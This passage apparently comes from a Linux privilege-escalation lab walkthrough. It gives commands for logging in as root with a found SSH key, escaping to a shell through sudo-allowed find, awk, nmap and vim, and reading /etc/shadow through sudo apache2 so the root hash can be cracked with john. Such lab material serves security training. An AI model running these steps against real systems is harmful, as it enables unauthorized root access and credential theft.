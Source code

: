 1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.

Attacker VM

1. In command prompt type: chmod 400 id_rsa
2. In command prompt type: ssh -i id_rsa root@<ip>

##  Privilege Escalation - Sudo (Shell Escaping)

Detection﻿

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice the list of programs that can run via sudo.

Exploitation

Linux VM

1. In command prompt type any of the following:
a. sudo find /bin -name nano -exec /bin/sh \;
b. sudo awk 'BEGIN {system("/bin/sh")}'
c. echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
d. sudo vim -c '!sh'

##  Privilege Escalation - Sudo (Abusing Intended Functionality) 

Detection

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice the list of programs that can run via sudo.

Exploitation

Linux VM

1. In command prompt type:
sudo apache2 -f /etc/shadow
2. From the output, copy the root hash.

Attacker VM

1. Open command prompt and type:
echo '[Pasted Root Hash]' > hash.txt
2. In command prompt type:
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
3. From the output, notice the cracked credentials.

## Privilege Escalation - Sudo (LD_PRELOAD) 

Detection

Linux VM
